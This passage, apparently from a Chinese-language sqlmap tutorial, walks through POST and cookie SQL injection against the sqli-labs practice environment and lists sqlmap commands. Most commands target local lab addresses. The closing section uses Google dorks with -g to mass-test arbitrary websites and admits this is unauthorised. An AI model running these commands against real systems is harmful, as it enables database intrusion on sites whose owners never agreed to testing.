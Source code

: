 ``` sql
sqlmap.py -r E:\360MoveData\Users\Administrator\Desktop\post.txt（第11关）
随意输入内容，使用burp抓包。
```

## 5. [POST]使用--data传递post数据

``` sql
sqlmap.py -r E:\360MoveData\Users\Administrator\Desktop\post.txt（第11关）
随意输入内容，使用burp抓包。
```

# COOKIE注入

## 1. 判断

当我们登陆后将信息存在了COOKIE中，后台进行判断，发现COOKIE中会显示上面
的个人信息，而不是登录框。在上面的信息中可以看到，多出了一个Your ID：8，这
个信息很有可能是从数据库中查询出来的，我们再次访问该页面，使用burp抓包分析，
此时会发现获取到了COOKIE值。

可以看到COOKIE中有uname=admin，说明后台很有可能利用COOKIE中的uname去数
据库中进行查询操作。

## 2. 手动检测

将COOKIE中的信息改为uname=admin’，页面报错了，并且从报错信息中可以看出，
后台使用的是单引号进行的拼凑。

## 3. sqlmap注入

``` sql
sqlmap.py -u http://192.168.30.88/sqli-labs/sqli-labs/Less-20/ --cookie
"uname=admin" --level=2
```

# sqlmap经典语法

## 1. --banner

``` sql
查询数据库类型，版本信息。（任意一个url都可以）
sqlmap.py -u http://192.168.0.111/sqli-labs/sqli-labs/Less-1/index.php?id=1
--banner
```

## 2. -g "谷歌语法"

``` sql
对网站url进行批量注入测试
如inurl:index.php?id= 在没有google搜索引擎的情况下，使用baidu也是不错的。
会搜索到很多网站，可以对这些网站进行尝试。不过这些都是属于未授权测试，只做演示。
sqlmap.py -g "inurl:index.php?id="
```
